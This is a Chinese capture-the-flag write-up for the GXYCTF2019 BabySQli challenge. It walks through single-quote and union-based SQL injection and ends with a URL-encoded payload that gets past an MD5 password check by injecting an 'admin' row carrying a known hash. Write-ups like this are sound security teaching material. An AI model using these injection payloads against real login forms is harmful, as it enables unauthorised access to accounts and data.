 # [GXYCTF2019]BabySQli

## 知识点

`sql注入`

`联合注入`

`绕过密码的md5验证`

## 解题

随便输入一个用户名和密码登录后，发现回显了一串字符，放到`CyberChef`看一下，解出来为

![BabySql1](img/babysql-1.png)

```sql
select * from user where username = '$name'
```

`单引号sql注入`，且有回显，使用联合注入测试，有些被过滤，大写绕过，发现表里有三列

```
1' Order by 3#
```

进行用联合注入，回显wrong user!，说明用户不在第一列

```
1' union select 1,2,3#
```

尝试将用户名放在第二列，回显wrong pass!，找到用户名在第二列

```
1' union select 1,'admin',3#
```

接下里就是要绕过密码的`md5`验证，需要把我们输入的值和数据库里面存放的用户密码的`md5`值进行比较，那要怎么绕过呢？可以用联合查询语句用来生成虚拟的表数据

首先可以看到该表只有一个用户

![img](.\img\8-1.png)

 然后我们可以用联合查询的方式将查询的数据插入到表中

![img](.\img\8-2.png)

这题的知识点是绕过密码的`md5`验证

 通过这样的方式，我们就可以用构造`payload`

用户名输入（`202cb962ac59075b964b07152d234b70`是 `123`的`md5`值）

```sql
name=1'union%20select%201,'admin','202cb962ac59075b964b07152d234b70'%23&pw=123
```

[参考文章](https://www.cnblogs.com/gaonuoqi/p/12355035.html)